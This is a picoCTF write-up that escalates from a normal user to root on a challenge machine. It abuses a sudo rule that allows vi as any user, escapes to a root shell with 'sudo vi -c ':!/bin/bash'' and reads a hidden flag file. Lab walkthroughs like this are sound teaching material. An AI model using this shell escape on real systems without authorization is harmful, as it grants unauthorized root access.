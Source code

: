## Description

>Can you read files in the root file?
>
>Additional details will be available after launching your challenge instance.

-----
This challenge asks us to read a file in the /root directory. Files located here are typically under the highest access protections possible, requiring only root permissions and rejecting any other non-super user.

Firstly, we are required to connect to the challenge machine via ssh:

```
$ ssh picoplayer@saturn.picoctf.net -p PORT
```

The port number is customized to your own launched instances.

Firstly, we can check our own user privileges:
```
picoplayer@challenge:~$ id  
uid=1000(picoplayer) gid=1000(picoplayer) groups=1000(picoplayer)
```
We can see we are not a part of root in any way, uid gid or part of the root group. It is unlikely we can access /root, so it is unsurprising to see we are denied:

```
picoplayer@challenge:/$ cd /root  
-bash: cd: /root: Permission denied
```

We need to find a way to elevate our permissions before we can go here. 

A common approach to elevating privileges is to do super-user actions, through the command `sudo`. Users are often limited in the kinds of sudo actions they can do. We can check what is allowed for our user by typing `sudo -l`:

```
picoplayer@challenge:/$ sudo -l     
Matching Defaults entries for picoplayer on challenge:  
   env_reset, mail_badpass,  
   secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin  
  
User picoplayer may run the following commands on challenge:  
   (ALL) /usr/bin/vi
```

Notably, we can run `/usr/bin/vi` as any user, including root, as noted by the (ALL). `vi` is a common text editor used to edit files. Since we are interested in reading the contents of a file, opening the file using `vi` is enough to tell us what's inside. 
```
picoplayer@challenge:/$ sudo vi /root/flag.txt
```

However, when we do this we don't see anything? This is because even though we know the location of the flag, we are still guessing if it is called flag.txt or something else. We need a way to explore the contents of the /root directory.

While `vi` has the main purpose of being a text editor, we can also abuse some of it's other features to obtain an interactive terminal session as user root:

```
sudo vi -c ':!/bin/bash'
```

Here, we launch vi with `sudo vi`. With -c flag, we specify a command `:!/bin/bash` for vi to run on launch. 
Alternatively, we can do this ourselves after launching `vi`. Simply typing `:shell` will open a shell session as the current user, in this case, root.

Now we can access /root:
```
root@challenge:~# ls  
root@challenge:~#
```

Typing `ls` shows no file in root? The challenge description mentions reading files in root, so surely something must be here:

```
root@challenge:~# ls -a  
.  ..  .bashrc  .flag.txt  .profile
```

By adding -a flag to `ls` we can see hidden files. There is our flag, under .flag.txt. So, the reason we couldn't find it earlier was because the name was indeed different from what we expected.
We can revisit to see that, once the proper name is supplied, `vi` could have been used to view file contents:
```
picoplayer@challenge:~$ sudo vi /root/.flag.txt
```

```
picoCTF{REDACTED}  
~
~
```

